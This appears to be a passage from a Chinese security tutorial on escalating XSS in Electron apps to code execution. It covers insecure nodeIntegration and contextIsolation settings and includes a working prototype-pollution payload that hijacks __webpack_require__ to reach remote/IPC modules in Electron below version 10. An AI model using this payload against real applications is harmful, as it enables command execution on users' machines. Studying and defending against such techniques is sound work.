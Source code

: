   

 **NI为true, CISO为 false，无沙箱**

这种情况是最简单的情况，允许了页面之间访问nodejs共享库，并且没有开启沙箱。只要我们能获取目标应用的一个XSS漏洞，就能直接通过访问NodeJS共享库，升级为XSS漏洞

  

在man.js中webPreferences中配置了nodeIntegration为true,
contextIsolation为false，默认情况下nodeIntegration为true,沙箱就会关闭

![](https://gitee.com/fuli009/images/raw/master/public/20221110215728.png)

  

script直接执行nodejs代码，即可获取shell

![](https://gitee.com/fuli009/images/raw/master/public/20221110215730.png)

  

 **NI为false, CISO为false，SBX为false**

在这种情况下，相比于第一种情况，虽然关闭了Nodejs集成，导致我们不能在web页面上下文访问Nodejs共享库。但是因为上下文隔离没有开启，web页面和preload.js处于同一上下文中，导致我们可以通过污染原型链，获取preload,js的函数，进行ipcmain调用，命令执行等

  

原型链污染获取__webpack_require__

通过如下代码进行原型链污染，可以获取到__webpack_require__函数，进而引入remote/IPC进行进一步利用

    
    
    <script>  
      const origEndWith = String.prototype.endsWith;  
      String.prototype.endsWith = function(...args) {  
        if (args && args[0] === "/electron") {  
          String.prototype.endsWith = origEndWith;  
          return true;  
        }  
        return origEndWith.apply(this, args);  
      }  
      
      const origCallMethod = Function.prototype.call;  
      Function.prototype.call = function(...args){  
        if(args[3] && args[3].name === "__webpack_require__") {  
          window.__webpack_require__ = args[3];  
          Function.prototype.call = origCallMethod;  
        }  
        return origCallMethod.apply(this, args);  
      }  
      console.log(window.__webpack_require__);  
    </script>  
    

  

版本限制

Electron<10

\- 可以使用原型链污染获取remote/IPC模块
